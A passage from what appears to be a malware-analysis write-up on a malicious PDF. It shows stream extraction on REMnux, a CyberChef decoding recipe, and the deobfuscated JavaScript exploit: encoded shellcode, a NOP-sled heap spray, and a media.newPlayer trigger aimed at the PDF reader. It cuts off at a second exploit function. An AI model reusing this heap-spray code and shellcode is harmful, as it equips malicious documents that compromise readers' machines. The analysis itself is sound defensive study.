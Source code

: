 ```s
  >>
```
Now that I know which streams are contained in the payload I have to assemble the encoded payload:
```s
remnux@remnux:~/Desktop/c31-Malicious-Portable$ cat fcexploit.dump/streams/stream_9.dmp > stream_encoded_payload.dmp
remnux@remnux:~/Desktop/c31-Malicious-Portable$ cat fcexploit.dump/streams/stream_7.dmp >> stream_encoded_payload.dmp
```
Now I fired up my best friend tool (`Cyberchef❤️`) and started decoding the payload using this [recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'X_17844743X_170987743'%7D,'%25',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'89af50d'%7D,'%25',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%5C%5Cn%7C%5C%5Cr'%7D,'%22%22',true,false,true,false)From_Hex('Auto')Generic_Code_Beautify()), after some decoding routines and manually deobfuscation I get the following script:
```javascript
function s(yarsp, len) {
    while (yarsp.length  *  2 < len)  {
        yarsp += yarsp;
    }

    yarsp = yarsp.substring(0, len  /  2);
    return yarsp;
}

function common_exploit() {
    var chunk_size, payload, nopsled;
    chunk_size = 0x8000;
    // calc.exe payload
    payload = unescape("%uabba%ua906%u29f1%ud9c9%ud9c9%u2474%ub1f4%u5d64%uc583%u3104%u0f55%u5503%ue20f%ued5e%uabb9%uc1ea%u2d70%u1953%u3282%u6897%ud01d%u872d%ufd18%ua73a%u02dc%u14cc%u64ba%u66b5%uae41%uf16c%u5623%udb7c%u7bc1%u5e69%u69dd%uf0b0%ucf0c%u1950%udd95%u5ab9%u7b37%u772b%uc55f%u1531%ue18d%u70c8%uc2c5%u4c1c%u7b34%u2f3a%ue82b%u27c9%u848b%ua512%u999d%u2faa%u84c0%u2bee%u768c%u0bc8%u237e%u4cc6%u51c2%u3abc%ufc45%u1118%uffe5%uf48a%udf14%u6c2f%u8742%u0a57%u6fe9%ub5b5%uca94%ua6ab%u84ba%u77d1%u4a2c%u74ac%uabcf%ub25f%ub269%u5e06%u51d5%u90f3%u978f%uec66%u6942%u6a9b%u18a2%u12ff%u42ba%u7be5%ubb37%u9dc6%u5de0%ufe14%uf2f7%uc6fd%u7812%uda44%u7167%u110f%ubb01%uf81a%ud953%ufc21%u22db%u20f7%u46b9%u27e6%ue127%u8e42%udb91%ufe58%ubaeb%u6492%u07fe%uade3%u4998%uf89a%u9803%u5131%u1192%ufcd5%u3ac9%u352d%u71de%u81cb%u4522%u6d21%uecd2%ucb1c%u4e6d%u8df8%u6eeb%ubff8%u653d%ubaf6%u8766%ud10b%u926b%ubf19%u9f4a%u0a30%u8a92%u7727%u96a7%u6347%ud3b4%u824a%uc4ae%uf24c%uf5ff%ud99b%u0ae1%u7b99%u133d%u91ad%u2573%u96a6%u3b74%ub2a1%u3c73%ue92c%u468c%uea25%u5986%u9261%u71b5%u5164%u71b3%u561f%uabf7%u91c2%ua3e6%uab09%ub60f%ua23c%ub92f%ub74b%ua308%u3cdb%ua4dd%u9221%u2732%u8339%u892b%u34a9%ub0da%ua550%u4f47%u568c%uc8fa%uc5fe%u3983%u7a98%u2306%uf60a%uc88f%u9b8d%u6e27%u305d%u1edd%uadfa%ub232%u4265%u2d3a%uff17%u83f5%u87b2%u5b90");
    nopsled = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090");
    while (nopsled.length < chunk_size) {
        nopsled += nopsled;
    }
    nopsled_len = chunk_size  -  (payload.length  +  20);
    nopsled = nopsled.substring(0, nopsled_len);
    heap_chunks = new Array();
    for (var i = 0; i < 2500; i++) {
        heap_chunks[i] = nopsled  +  payload;
    }
    util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
    try {
        media.newPlayer(null);
    } catch(e) {}
    
    util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
}

function first_exploit() {
    // freecell.exe payload
```